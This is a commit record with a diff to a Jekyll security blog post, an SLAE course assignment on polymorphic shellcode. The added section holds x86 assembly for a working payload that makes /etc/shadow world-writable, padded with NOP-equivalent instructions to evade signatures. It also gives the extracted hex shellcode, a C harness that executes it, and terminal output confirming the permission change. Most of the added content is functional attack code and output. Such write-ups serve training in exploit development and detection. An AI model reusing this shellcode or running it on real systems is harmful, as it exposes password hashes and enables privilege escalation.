

Before and after one commit to whitecr0wz/whitecr0wz.github.io, a Jekyll site: the page built from _posts/posts/2021-01-17-SLAE-Polymorphic.md, in a window 1280 px wide and 1400 px high, scrolled down 1944 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 2529 px from its top, so only the background shows below that.

Commit message:
Update 2021-01-17-SLAE-Polymorphic.md

````diff
--- a/_posts/posts/2021-01-17-SLAE-Polymorphic.md
+++ b/_posts/posts/2021-01-17-SLAE-Polymorphic.md
@@ -138,8 +138,84 @@ int    0x80
 There aren't many things that we can do. Nonetheless, we can apply similar techniques as we did on the previous shellcode:
 
 ```term
+; Original Shellcode: http://shell-storm.org/shellcode/files/shellcode-590.php
 
+global _start
+
+_start:
+
+       dec ebp            ; NOP Equivalent.
+
+       xor eax, eax       ; Zeroes out EAX.
+       cdq                ; Zeroes out EDX.
+       push edx           ; Pushes the dword of EDX (0x00000000).
+       mov al, 0xf        ; Moves value of syscall chmod into AL.
+
+       sahf               ; NOP Equivalent.
+       push 0x776f6461    ; woda
+
+       cld                ; NOP Equivalent.
+       push 0x68732f63    ; hs/c
+
+       push 0x74652f2f    ; te//
+       cdq                ; NOP Equivalent.
+
+       mov ebx, esp       ; Copies value from ESP to EBX.
+       pushfd             ; NOP Equivalent.
+       mov cx, 0x1ff      ; Value that means in octal "0777".
+       cmc                ; NOP Equivalent.
+       int  0x80          ; Call to kernel.
+
+       inc eax            ; Increment EAX to 1, value for syscall exit().
+       pushad             ; NOP Equivalent.
+       int 0x80           ; Call to kernel.
 ```
+
+Let's obtain the dump the shellcode and test it!
+
+```term
+root@SLAE:/home/whitecr0wz/assembly/assignments/Assignment_6/2_shellcode# nasm -f elf32 1.asm -o 1.o && ld 1.o -o 1
+root@SLAE:/home/whitecr0wz/assembly/assignments/Assignment_6/2_shellcode# objdump -d ./1|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
+"\x4d\x31\xc0\x99\x52\xb0\x0f\x9e\x68\x61\x64\x6f\x77\xfc\x68\x63\x2f\x73\x68\x68\x2f\x2f\x65\x74\x99\x89\xe3\x9c\x66\xb9\xff\x01\xf5\xcd\x80\x40\x60\xcd\x80"
+root@SLAE:/home/whitecr0wz/assembly/assignments/Assignment_6/2_shellcode#
+```
+
+```term
+#include<stdio.h>
+#include<string.h>
+
+unsigned char code[] = \
+"\x4d\x31\xc0\x99\x52\xb0\x0f\x9e\x68\x61\x64\x6f\x77\xfc\x68\x63\x2f\x73\x68\x68\x2f\x2f\x65\x74\x99\x89\xe3\x9c\x66\xb9\xff\x01\xf5\xcd\x80\x40\x60\xcd\x80";
+
+main()
+{
+
+  printf("Shellcode Length:  %d\n", strlen(code));
+
+        int (*ret)() = (int(*)())code;
+
+        ret();
+
+}
+```
+
+#### EndGame #2
+
+```term
+root@SLAE:/home/whitecr0wz/assembly/assignments/Assignment_6/2_shellcode# gcc polymorphic.c -o polymorphic -fno-stack-protector -z execstack -w
+root@SLAE:/home/whitecr0wz/assembly/assignments/Assignment_6/2_shellcode# ls -la /etc/shadow
+-rw-r--r-- 1 511 12079 1115 Dec 28 10:33 /etc/shadow
+root@SLAE:/home/whitecr0wz/assembly/assignments/Assignment_6/2_shellcode# ./polymorphic
+Shellcode Length:  39
+root@SLAE:/home/whitecr0wz/assembly/assignments/Assignment_6/2_shellcode# ls -la /etc/shadow
+-rwxrwxrwx 1 511 12079 1115 Dec 28 10:33 /etc/shadow
+root@SLAE:/home/whitecr0wz/assembly/assignments/Assignment_6/2_shellcode#
+```
+
+Original Size: 33 bytes
+Final Size: 39 bytes
+
+Increment: 19%
 
 ### Code
 
````
